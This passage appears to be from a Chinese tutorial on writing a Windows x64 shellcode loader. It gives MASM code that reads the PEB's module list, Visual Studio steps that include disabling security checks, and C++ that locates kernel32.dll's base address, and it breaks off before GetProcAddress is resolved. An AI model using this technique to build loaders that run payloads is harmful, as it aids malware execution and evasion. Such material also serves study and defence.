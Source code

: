 <img src="shellcode加载器/image-20230505164445694.png" alt="image-20230505164445694" style="zoom:67%;" />		



此处我创建了一个`GetInitializationOrderModuleList.asm`, 用于获取`InitializationOrderModuleList`, 其代码如下所示:

```asm
.CODE
    GetInInitializationOrderModuleList PROC
    mov rax,gs:[60h] ; PEB，注意，这里不能写0x60
    mov rax,[rax+18h] ; PEB_LDR_DATA
    mov rax,[rax+30h] ; InInitializationOrderModuleList
    ret ; 这里不能写retn
    GetInInitializationOrderModuleList ENDP
END
```



随后鼠标右键单击新建的asm文件, 选择属性, 在常规选项处将`从生成中排除`设置为`否`, 项类型设置为`自定义生成工具`

<img src="shellcode加载器/image-20230505164722633.png" alt="image-20230505164722633" style="zoom:67%;" />	



在自定义生成工具选项处, 在命令行框输入:`ml64 /Fo $(IntDir)%(fileName).obj /c %(fileName).asm`, 在输出框输入:`$(IntDir)%(FileName).obj`

<img src="shellcode加载器/image-20230505165453883.png" alt="image-20230505165453883" style="zoom:67%;" />	



打开项目属性，勾选`C/C++->代码生成->禁用安全检查`

<img src="shellcode加载器/image-20230505171010208.png" alt="image-20230505171010208" style="zoom:67%;" />	



以下是shellcode加载代码

```cpp
#include <stdio.h>
#include <windows.h>

// UNICODE_STRING 结构体定义
typedef struct _UNICODE_STRING {
    USHORT Length;  //表示字符串中的字符数,由于它是unicode形式的字符,因此每个字符占两个字节
    USHORT MaximumLength;  //分配的内存空间的大小，以字节为单位
    PWSTR Buffer;  //表示指向存储Unicode字符串的字符数组的指针
} UNICODE_STRING, * PUNICODE_STRING;

// 声明获取 InInitializationOrderModuleList 链表的函数
extern "C" PVOID64 __stdcall GetInInitializationOrderModuleList();

// 获取 Kernel32.dll 的基地址
HMODULE getKernel32Address() {
    // 获取 InInitializationOrderModuleList 链表
    LIST_ENTRY* pNode = (LIST_ENTRY*)GetInInitializationOrderModuleList();
    while (1) {
        // 获取 FullDllName 成员
        UNICODE_STRING* FullDllName = (UNICODE_STRING*)((BYTE*)pNode + 0x38);
        // 如果 Buffer 中的第 13 个字符为空字符，则已找到 Kernel32.dll
        if (*(FullDllName->Buffer + 12) == '\0') {
            // 返回模块的基地址
            return (HMODULE)(*((ULONG64*)((BYTE*)pNode + 0x10)));
        }
        pNode = pNode->Flink;
    }
}

// 获取 GetProcAddress 函数的地址
```